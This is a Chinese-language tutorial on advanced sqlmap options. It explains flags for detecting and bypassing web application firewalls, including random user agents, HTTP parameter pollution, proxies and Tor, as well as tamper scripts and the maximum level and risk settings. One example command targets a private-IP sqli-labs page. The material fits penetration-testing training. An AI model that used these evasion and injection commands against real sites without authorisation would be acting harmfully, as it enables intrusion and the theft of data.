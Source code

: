 # Sqlmap 的高级用法

Sqlmap 在默认情况下除了适用 CHAR() 函数防止出现单引号，没有对注入的数据进行修改。我们可以使用—tamper 参数对数据进行修改来绕过 WAF 等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过 WAF 的检测规则。Sqlmap 目前官方提供 53 个绕过脚本。

## 探测指定 URL 是否存在 WAF，并且绕过

```diff
--identify-waf   检测是否有WAF

#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

## 指定脚本进行绕过 (—tamper)

有些时候网站会过滤掉各种字符，可以用 tamper 来解决（对付某些 waf 时也有成效）

```perl
sqlmap  --tamper=space2comment.py  #用/**/代替空格
sqlmap  --tamper="space2comment.py,space2plus.py"  指定多个脚本进行过滤
```

过滤脚本在目录：**/usr/share/sqlmap/tamper**

![](https://p1.ssl.qhimg.com/t01565062aff86a2767.png)

## 探测等级和危险等级 (—level—risk)

Sqlmap 一共有 5 个探测等级，默认是 1。等级越高，说明探测时使用的 payload 也越多。其中 5 级的 payload 最多，会自动破解出 cookie、XFF 等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET 和 POST 的数据都会进行测试，HTTP cookie 在 level 为 2 时就会测试，HTTP User-Agent/Referer 头在 level 为 3 时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置 level 为 5

sqlmap 一共有 3 个危险等级，也就是说你认为这个网站存在几级的危险等级。和探测等级一个意思，在不确定的情况下，建议设置为 3 级，—risk=3

sqlmap 使用的 payload 在目录：**/usr/share/sqlmap/xml/payloads**

![](https://p3.ssl.qhimg.com/t01086cd70c1873d39a.png)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别
```

![](https://p2.ssl.qhimg.com/t01d5a8232de4f2f4a6.png)
